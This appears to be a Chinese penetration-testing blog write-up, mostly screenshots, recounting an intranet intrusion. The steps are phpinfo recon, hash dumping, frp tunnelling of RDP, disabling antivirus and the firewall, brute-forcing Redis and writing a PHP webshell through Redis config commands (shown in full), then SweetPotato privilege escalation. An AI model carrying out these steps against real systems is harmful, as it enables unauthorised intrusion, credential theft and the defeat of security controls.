 ![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHY15gxNYiaLgcB95eIXkChR3Gv1tocicID2ibTFib7kGRvaU0jqyrxJfS0RQ/640?wx_fmt=png)

通过 phpinfo 查看网站的内网 ip

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHY3uscsHib3D0fg59UiavNxMKORiaHPIgtT2sCZCyibzcFJKl6TXR9HFvEYg/640?wx_fmt=png)

现在的情况  那就抓 hash

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYd1Kq2kEiaibro4UCPy8TM8uCo2Fiag0CFQX987QtsmS6V2dnXIwHhia1sg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYlayq4riclSNTfphmEsSHAAbo1QtTz7rIgmUpammrIPyN9o1G3TzEibBQ/640?wx_fmt=png)

等等上去关火绒

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHY1viaGvI3JV2wRVUcFhrq6qYI5OP6Wgfiaky8oGzlCG27af3XibbcejJHg/640?wx_fmt=png)

Frp 将内网 3389 穿透出去关闭火绒

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYzfbrDRQ9e4mHnc6HGlvKsB85VCorlO2TrHkwiciaajUkU4SoGN1Z3HYA/640?wx_fmt=png)

上马 hashdump 迁移进程 梭哈

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYvcqMX4GS5vAAGJ8VJfphPuP0BHv6sAw2VeeUibZ3pIwY0cS6ia21hXCg/640?wx_fmt=png)

redis 已经拿下 通过爆破密码

然后通过把 cmd 与 redis-cli 导入

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYZOHcYoQZ4qExHYkib4wgodFJoKfCjfbh5CQjpRw4GaHHNqOhiaXyBQBw/640?wx_fmt=png)

坑点 1 写入 php 提示 404 但是写入了

2 写入 webshell 要单引号

3 两个程序都需要导入代理 cmd 与 rediscli

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYVYnjePo6ofPZCVibaMMWtdxmrsS0Wpo6BW9IPQHphSFKZBcCPyBXKjQ/640?wx_fmt=png)

config set dir/home/wwwroot/default/ #windows 的 web 默认路径

config setdbfilename redis.php    文件名字

set webshell"<?php phpinfo(); ?>"  #webshell

save

      php 可以双引号 不知道为什么这个 asp 就得单引号了记录一下

第二个机器 上图用 redis 打穿了 通过代理 蚁剑连接   

然后配上甜土豆提权 关闭防火墙

![](https://mmbiz.qpic.cn/mmbiz_png/7XAvvlbibo1TmTsRPicMUL6Ws4b05xEkHYbnYCCia5HsTahTO78ciaLhlpoTBf2SkBQDup2UUMCPAnKkgcuZlBpGVA/640?wx_fmt=png)

甜土豆坑点 1 此版本的甜土豆如果提权需要加入绝对路径

 例如 1.exe -a "c:/windows/*.exe"  
